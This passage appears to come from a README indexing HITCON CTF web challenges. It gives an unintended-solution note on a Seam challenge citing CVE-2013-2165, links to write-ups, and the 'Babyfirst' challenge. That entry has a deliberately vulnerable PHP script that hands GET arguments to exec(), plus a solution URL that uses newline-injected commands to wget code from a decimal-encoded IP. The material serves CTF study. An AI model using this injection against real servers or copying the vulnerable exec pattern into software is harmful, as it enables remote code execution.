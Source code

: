 
**Unintended solution**  

* CVE-2013-2165 Java deserialization vulnerability

<br>

**Unintended solution**  

* SESSION manipulation... seam SUCKS  

#### Write Ups

* [Web500 Hitconctf 2016 and exploit CVE-2013-2165](http://vnprogramming.com/index.php/2016/10/10/web500-hitconctf-2016-and-exploit-cve-2013-2165/)
* [Angry Seam (500 pts)](https://github.com/Blaklis/write-ups/tree/master/hitcon)

## **Babyfirst**

Solved: **33 / 969**  
Difficulty: **★★**  
Tag: **WhiteBox**, **PHP**, **Command Injection**  

#### Idea

* Use `NewLine` to bypass regular expression check  
* Command injection only with alphanumeric characters  

#### Source Code

* [here](hitcon-ctf-2015/babyfirst)  

```php
<?php
    highlight_file(__FILE__);

    $dir = 'sandbox/' . $_SERVER['REMOTE_ADDR'];
    if ( !file_exists($dir) )
        mkdir($dir);
    chdir($dir);

    $args = $_GET['args'];
    for ( $i=0; $i<count($args); $i++ ){
        if ( !preg_match('/^\w+$/', $args[$i]) )
            exit();
    }

    exec("/bin/orange " . implode(" ", $args));
?>
```


#### Solution

```text
http://localhost/
?args[0]=x%0a
&args[1]=mkdir
&args[2]=orange%0a
&args[3]=cd
&args[4]=orange%0a
&args[5]=wget
&args[6]=846465263%0a

http://localhost/
?args[0]=x%0a
&args[1]=tar
&args[2]=cvf
&args[3]=aa
```